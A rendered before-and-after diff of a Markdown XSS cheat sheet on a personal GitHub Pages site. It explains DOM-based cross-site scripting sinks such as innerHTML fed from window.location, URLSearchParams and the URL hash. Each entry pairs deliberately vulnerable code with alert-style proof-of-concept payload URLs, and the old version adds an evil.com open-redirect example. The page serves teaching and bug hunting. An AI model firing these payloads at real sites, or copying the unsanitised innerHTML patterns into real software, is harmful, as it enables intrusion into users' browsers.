

Before and after one commit to RHYru9/rhyru9.github.io, a Markdown page: bug/xss-cheatsheet/readme.md, the part around one of its changes. Shown at 82% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/bug/xss-cheatsheet/readme.md
+++ b/bug/xss-cheatsheet/readme.md
@@ -1,76 +1,74 @@
-### 1. **`document.URL` and `document.documentURI`**
-Both return the URL of the current document. If inserted into a page without sanitization, they can be exploited for XSS.
+### 1. **`window.location.href`**
 
-**Example Payload URL:**
-```bash
-https://victim.com/page?url=<script>alert('XSS')</script>
+#### **JavaScript Code Example:**
+```javascript
+document.body.innerHTML = "You are on: " + window.location.href;
 ```
 
-**Code:**
+#### **Explanation:**
+Here, the `window.location.href` value, which is the full URL of the page, is directly inserted into the DOM using `innerHTML`. This is dangerous because an attacker can manipulate the URL and inject malicious code that gets executed when the page is rendered.
+
+#### **PoC:**
 ```html
-<p id="demo"></p>
-<script>
-    var url = document.URL;
-    document.getElementById("demo").innerHTML = "Current URL: " + url;
-</script>
+http://example.com/#"><img src="x" onerror="alert('XSS')">
 ```
-If the URL parameter is displayed directly on the page, the script can execute without sanitization.
+
+This payload inserts a `<img>` element that triggers an `onerror` event when the image fails to load, which then executes the `alert('XSS')` code.
 
 ---
 
-### 2. **`document.baseURI`**
-This property returns the base URL of the document. It can lead to open redirects if used without validation.
+### 2. **`window.location.search`**
 
-**Example Open Redirect:**
-```bash
-https://victim.com/?redirect=https://evil.com
+#### **JavaScript Code Example:**
+```javascript
+let params = window.location.search;
+document.body.innerHTML = "Search query: " + params;
 ```
 
-**Code:**
+#### **Explanation:**
+The `window.location.search` retrieves the query string from the URL (the part after `?`). By directly inserting this value into the DOM using `innerHTML`, attackers can manipulate the query string to execute malicious JavaScript.
+
+#### **PoC:**
 ```html
-<script>
-    var redirectURL = document.baseURI + new URLSearchParams(window.location.search).get('redirect');
-    window.location.href = redirectURL;
-</script>
+http://example.com/?q="><img src="x" onerror="alert('XSS')">
 ```
-If `redirect` is processed without validation, users can be sent to a malicious site.
+
+This payload manipulates the query parameter `?q=`, injecting an `<img>` tag with an `onerror` handler that executes JavaScript when the image fails to load.
 
 ---
 
-### 3. **`location` and `window.location`**
-These refer to the current URL and are often used for XSS or open redirect if the URL data is used without validation.
+### 3. **`URLSearchParams`**
 
-**Example XSS Payload URL:**
-```bash
-https://victim.com/?name=<script>alert('XSS')</script>
+#### **JavaScript Code Example:**
+```javascript
+let params = new URLSearchParams(window.location.search);
+let paramValue = params.get('input');
+document.body.innerHTML = "Input: " + paramValue;
 ```
 
-**Code:**
+#### **Explanation:**
+`URLSearchParams` is used to retrieve query parameters from the URL. In this case, `paramValue` is obtained from the query string and inserted into the DOM using `innerHTML`. If not sanitized, attackers can inject malicious code through the `input` parameter.
+
+#### **PoC:**
 ```html
-<p id="name"></p>
-<script>
-    var params = new URLSearchParams(window.location.search);
-    var name = params.get('name');
-    document.getElementById("name").innerHTML = "Hello " + name;
-</script>
+http://example.com/?input="><img src="x" onerror="alert('XSS')">
 ```
-If the `name` parameter value is not sanitized, XSS can occur.
+
+By injecting an image with an `onerror` event, attackers can execute JavaScript when the image fails to load.
 
 ---
 
-### 4. **`window.location.search`** (Accessing Query Parameters)
-This returns the query string part of the URL. It can be dangerous if used to inject data into the DOM without sanitization.
+### 4. **`window.location.hash`**
 
-**Example:**
-```bash
-https://victim.com/search?query=<img src=x onerror=alert(1)>
+#### **JavaScript Code Example:**
+```javascript
+document.body.innerHTML = "Hash value: " + window.location.hash;
 ```
 
-**Code:**
+#### **Explanation:**
+The `window.location.hash` returns the part of the URL after the `#`. In this example, the value of the hash is inserted directly into the DOM using `innerHTML`. An attacker can manipulate the hash to include malicious code.
+
+#### **PoC:**
 ```html
-<p id="searchResult"></p>
-<script>
-    var searchQuery = window.location.search;
-    document.getElementById("searchResult").innerHTML = "Search result for: " + searchQuery;
-</script>
+http://example.com/#"><img src="x" onerror="alert('XSS')">
 ```
````
Also changed, not shown: other parts of bug/xss-cheatsheet/readme.md (+60 -60 lines).
